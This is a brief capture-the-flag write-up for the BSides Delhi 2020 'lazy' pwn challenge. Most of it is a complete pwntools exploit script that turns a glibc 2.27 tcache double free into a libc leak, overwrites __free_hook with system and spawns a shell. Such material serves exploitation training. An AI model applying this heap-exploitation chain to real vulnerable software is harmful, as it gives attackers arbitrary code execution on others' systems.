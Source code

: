 ## Bsides Delhi 2020: lazy [pwn]

#### Short writeup for now, detailed explanation later. Challenge revolves around GLIBC 2.27 heap, a double free vulnerability to which we will use after filling the tcache bin and leaking a libc pointer from the unsorted bin. Typicall overwrite `__free_hook` to system's address plan follows. 

#### The reason the unsorted bin is important to us is because as soon as a chunk goes into the unsorted bin, a pointer to the unsorted bin (which exists within libc) is inserted into the forward and back pointers of that free chunk.

```python
from pwn import *

#:
binary = ELF('./chall', checksec = False)
libc = ELF('./libc.so.6', checksec = False)
p = process('./chall', env = {'LD_PRELOAD' : './libc.so.6'})

breakpoints = ['break *addChunk + 239', 'break *deleteChunk + 146']
#gdb.attach(p.pid, gdbscript = '\n'.join([br for br in breakpoints]))

print(p.recvuntil('Choice >> '))

def alloc_chunk(size, data):
	p.sendline('1')
	print(p.recvuntil('>> '))
	p.sendline(str(size))
	print(p.recvuntil('>> '))
	p.sendline(data)
	print(p.recvuntil('Choice >> '))

def view_chunk(index):
	p.sendline('2')
	print(p.recvuntil('>> '))
	p.sendline(str(index))
	print(p.recvuntil('Choice >> '))

def delete_chunk(index):
	p.sendline('3')
	print(p.recvuntil('>> '))
	p.sendline(str(index))
	print(p.recvuntil('Choice >> '))

alloc_chunk(0x98, p64(libc.got['malloc']))
alloc_chunk(0x20, 'test')

for i in range(7):
	delete_chunk(0)

delete_chunk(0)

#: view chunk 0 to get libc leak
p.sendline('2')
print(p.recvuntil('>> '))
p.sendline('0')

arena_leak = u64(p.recvuntil('Choice >> ').split('\n')[1].ljust(8, '\x00'))
malloc_leak = arena_leak - 0x354bc0
libc_base = malloc_leak - libc.symbols['malloc']

free_hook = libc_base + libc.symbols['__free_hook']
system = libc_base + libc.symbols['system']

print('[*] libc base: {}'.format(hex(libc_base)))
print('[*] __free_hook: {}'.format(hex(free_hook)))
print('[*] system: {}'.format(hex(system)))

delete_chunk(1)
delete_chunk(1)

alloc_chunk(0x20, p64(free_hook)) #: double free chunk, adds pointer to freehook in tcache
alloc_chunk(0x20, '/bin/sh\x00') #: double free chunk
alloc_chunk(0x20, p64(system)) #: pointer to __free_hook

p.sendline('3')
p.sendline('3')
p.interactive()
```